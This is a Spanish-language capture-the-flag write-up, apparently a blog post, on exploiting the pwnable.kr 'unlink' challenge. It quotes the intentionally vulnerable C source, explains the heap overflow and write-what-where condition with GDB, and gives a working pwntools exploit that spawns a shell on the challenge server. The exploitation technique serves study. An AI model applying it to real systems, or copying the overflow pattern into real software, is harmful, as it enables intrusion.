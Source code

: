```yaml
---
layout: post
title: pwnable.kr unlink - Heap Overflow via Double-Linked list y Write-What-Where
author: c4rta
date: 2023-04-16
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
categories: [Explotacion binaria]
tags: [Heap, Double-linked list, Write-What-Where]
---
```

Explotaremos un Heap Overflow en una lista doblemente enlazada con una condicion Write-What-Where que nos permitira escribir la direccion de la funcion shell() en A->buf
{:.lead}

Este es un desafio de los gordos, como ayuda, te dejo este gran writeup el cual me ayudo bastante a entender que pedo: [picale aqui](https://youtu.be/81_BMRXDw3c)

## Analisis

Se nos proporciona el codigo fuente del programa, donde primeramente se esta definiendo una estructura llamada ```OBJ```:

```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Primero se definen dos punteros a la estructura ```tagOBJ``` llamados ```fd``` y ```bk``` y un arreglo de char (que seria el buffer) con una longitud de 8 bytes, los punteros ```fd``` y ```bk``` son usados normalmente para implementar una lista doblemente enlazada, y para eso esta esta funcion:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Donde el puntero ```fd``` apunta al siguiente elemento, y ```bk``` apunta al elemento anterior.

Codigo completo:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Se esta haciendo basicamente esto:

- Crea tres nodos (A, B y C)
- Se crea una lista doblemente enlazada con A en primer lugar, B en segundo y C en tercero.
- Muestra la dirección donde el puntero ```&A``` cuando mantiene en el stack como una variable local
- Muestra la dirección en la que se guarda el nodo A en el heap.
- Obtiene un imput el cual puede sobreescribir la memoria que comienza con ```A->buf``` en el heap
- Llama a unlink con el nodo B

### Vulnerabilidad

En la funcion main se esta haciendo un llamado a la funcion gets: ```gets(A->buf);```, donde se esta ocasionando un heap overflow a partir de del nodo A (```A->buf```).

Debido a que ocurrio un heap overflow y el programa soporta una operacion de desvinculacion en el nodo B:
```c
FD->bk=BK;
BK->fd=FD;
```
Debemos de explotar la funcion ```unlink```, donde podemos sobreescribir el ```fd``` y el ```bk``` del nodo B, cuando el nodo B se desvincula, ocurre que:

- El nodo apuntado por B->fd(antes C) cambiará a B->bk(antes A)
- El nodo apuntado por B->bk(antes A) cambiará a B->fd(antes C)

**Metodo de explotacion 1 (incorrecto)**

Podriamos hacer que B->bk apunte a una direccion de ```ebp``` y despues sobrescribirlo con la dirección de la funcion ```shell``` en ```B->fd```

Pero no se puede, si ponemos la direccion de la funcion ```shell()``` en ```B->fd``` o ```B->bk```, no se ve a poder ejecutar por que cuando se ejecute ```BK->fd=FD```, la funcion ```unlink``` tratara de escribir en la misma direccion.

Debido a esto, debemos de hacer que ```B->fd``` o ```B->bk``` siempre apunten a una direccion de memoria con permisos de escritura, donde debemos de tener en cuenta que ```B->bk``` se escribira 4 bytes despues de la direccion de ```B->fd```

## Analisis con GDB

En las ultimas linea de la funcion main, cuando se hace el llamado de ```unlink```:

![](/assets/img/unlink/unlink1.png)

Tenemos algo interesante, El contenido en la dirección ```ebp-4``` se copia en ```ecx``` y antes de que devuelva el valor ```ecx-4``` se asigna al ```esp```, entonces el programa regresará a la dirección que este en ```ecx-4```.

## Write-What-Where

Una vez ejecutando el programa y pasandole varios bytes hasta que ocurra el overflow, podemos ver que tenemos el control de ```eax``` y ```edx```:

![](/assets/img/unlink/unlink2.png)

Y si continuamos la ejecucion del programa, lo que tiene el ```eip``` es la direccion ```0x8048521``` y que ejecuta la intruccion: ```DWORD PTR [eax+0x4], edx```, pero como ```edx``` tiene una direccion invalida entonces va a petar. Y aqui es cuando la instruccion ```mov``` nos proporciona la condicion ```write-what-where```, asi que con esta condicion podemos sobreescribir el ```ebp-0x4``` de cuando de hace el llamado a la funcion ```unlink``` en la funcion ```main```.

Y esto es bastante interesante por que si sobrescribimos el valor de ```ebp-4``` con una dirección del heap, entonces el flujo de ejecución ira a lo que esté escrito 4 bytes antes de lo que apunta esa dirección, y como tenemos control total sobre el heap, podemos escribir la dirección de la funcion ```shell()``` en esa parte.

## Explotacion

Entonces tenemos que:

- Sobreecribiremos ```B->bk``` con la dirección ```ebp-4```
- Agregar 0x10 al stack para llegar al valor que queremos
- Hacer que ```B->fd``` sea igual a una dirección del heap que podamos controlar, más 4 bytes, y podemos usar ```A->buf```
- Y por ultimo escribir la dirección de la función ```shell()``` en A->buf.

### Exploit

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell_addr = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell_addr) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

![](/assets/img/unlink/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/unlink/waifu.gif)